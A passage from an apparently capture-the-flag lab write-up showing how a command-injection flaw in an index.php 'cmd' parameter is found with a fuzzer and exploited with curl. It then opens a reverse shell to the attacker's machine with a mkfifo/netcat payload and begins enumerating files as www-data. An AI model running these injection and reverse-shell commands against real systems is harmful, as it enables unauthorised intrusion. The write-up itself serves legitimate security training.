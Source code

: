 ```
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 508ms]
:: Progress: [38267/38267] :: Job [1/1] :: 195 req/sec :: Duration: [0:03:16] :: Errors: 0 ::
```

Hence, url `http://10.10.183.152/assets/index.php` contains command injection vulnerability, bu passing command in the `cmd` param in the url. 

Try getting response of a command, example `whoami`:

```
$ curl -s  'http://10.10.183.152/assets/index.php?cmd=whoami'
d3d3LWRhdGEK
```
Output is in base64 format, then let rerun the command and decode the output as well:

```
$ curl -s  'http://10.10.183.152/assets/index.php?cmd=whoami' | base64 -d
www-data
```

As you can see we are able to run commands as user ***www-data***

Now let's try to get a reverse shell.

```
nc -lvnp 5555
```

https://www.revshells.com/


Taking reverse shell with curl:
```
$ curl -s 'http://10.10.236.132/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.4.93.55 5555 >/tmp/f'
```

On the other terminal window, shell has been initiated:
```
$nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.4.93.55] from (UNKNOWN) [10.10.236.132] 34472
bash: cannot set terminal process group (751): Inappropriate ioctl for device
bash: no job control in this shell
www-data@myheroacademia:/var/www/html/assets$ g
```

Let's look for all the files and directories that our user `www-data`.

```
$ find / -user www-data
```
